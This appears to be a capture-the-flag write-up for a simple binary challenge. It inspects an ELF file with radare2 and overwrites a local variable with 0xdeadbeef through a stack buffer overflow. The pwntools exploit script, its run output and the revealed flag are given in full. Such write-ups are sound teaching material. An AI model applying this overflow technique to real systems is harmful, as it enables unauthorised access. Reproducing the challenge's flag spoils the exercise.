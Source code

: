 1. use `file <file>` to take a look. It's ELF file.

```
$ file pass
pass: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, 
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=abcfeb57f2bcc8ad99fcba05bb6a05830c5e36d0, 
for GNU/Linux 3.2.0, not stripped
```

2. use `r2 <executable file>` to see the flow of the program.
  a. `aa`, `afl` to see the function of the binary.
  b. `s <function>` seek to the function.
  b. `VV` to see the function(we just set) flow in a graphic way.
  
3. by r2 VV command, we can see that var_20h is put at rbp-0x20, var_4h is at rbp-0x4.
![image](https://user-images.githubusercontent.com/66505819/139224311-e1ab5a5e-23a2-4168-aa89-b9854b8be027.png)

4. keep looking, we find that the program store number 1234(0x4d2) at var_4h. And the program will compare it with 0xdeadbeef.
   if they are the same, program jump to Door open and we'll find the flag, or we fail.
![image](https://user-images.githubusercontent.com/66505819/139225275-173b9989-6754-49a8-8c9c-fe62f5c8a85e.png)
![image](https://user-images.githubusercontent.com/66505819/139225335-ac1f25a6-8fb3-4176-8976-4e69ccb910a9.png)

5. Our input will be put at var_20h, and we need to change the data that store at var_4h, using boffer overflow. So, we have the script below.
```
from pwn import *

r = process('./pass')
#r = remote('120.114.62.211', 6126)

payload = b'A'*28

r.sendline(payload + p64(0xdeadbeef))  #if 64 bit ,or 32bit use p32

r.interactive()
```

6. run the script and get the flag.
```
$ python3 exploit.py
[+] Starting local process './pass': pid 162
[*] Switching to interactive mode
Billy left his key in the locked room.
However, he forgot the token of the room.
Do you know what's the key?Door open. OwO
FLAG{xtnntfhzflpttvxvzzbfjfnxbjvrzxdfvzlvhpt}
hello hacker!
[*] Process './pass' stopped with exit code 0 (pid 162)
[*] Got EOF while reading in interactive
$
```
